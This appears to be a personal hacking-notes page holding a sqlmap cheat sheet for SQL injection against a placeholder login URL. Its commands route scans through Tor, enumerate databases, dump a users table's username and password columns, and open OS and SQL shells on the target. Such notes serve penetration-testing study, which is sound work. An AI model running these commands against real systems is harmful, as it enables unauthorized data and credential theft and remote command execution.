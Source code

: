```yaml
---
tags: 🔻 🔻/Enumeration/sqlinjection
aliases: Hacking Notes
---
```


[[sqlmap cheatsheet v1.0-SBD.pdf]]
## SQLmap 
#sqlmap
Easy Scanning option

`sqlmap \-u "http://testsite.com/login.php"`

Scanning by using tor

`sqlmap \-u "http://testsite.com/login.php" \--tor \--tor\-type\=SOCKS5`

Scanning by manually setting the return time

`sqlmap \-u "http://testsite.com/login.php" \--time\-sec 15`

List all databases at the site

`sqlmap \-u "http://testsite.com/login.php" \--dbs`

List all tables in a specific database

`sqlmap \-u "http://testsite.com/login.php" \-D site\_db \--tables`

Dump the contents of a DB table

`sqlmap \-u "http://testsite.com/login.php" \-D site\_db \-T users –dump`

List all columns in a table

`sqlmap \-u "http://testsite.com/login.php" \-D site\_db \-T users \--columns`

Dump only selected columns

`sqlmap \-u "http://testsite.com/login.php" \-D site\_db \-T users \-C username,password \--dump`

Dump a table from a database when you have admin credentials

`sqlmap \-u "http://testsite.com/login.php" –method "POST" –data "username=admin&password=admin&submit=Submit" \-D social\_mccodes \-T users –dump`

Get OS Shell

`sqlmap \--dbms\=mysql \-u "http://testsite.com/login.php" \--os\-shell`

Get SQL Shell

`sqlmap \--dbms\=mysql \-u "http://testsite.com/login.php" \--sql\-shell`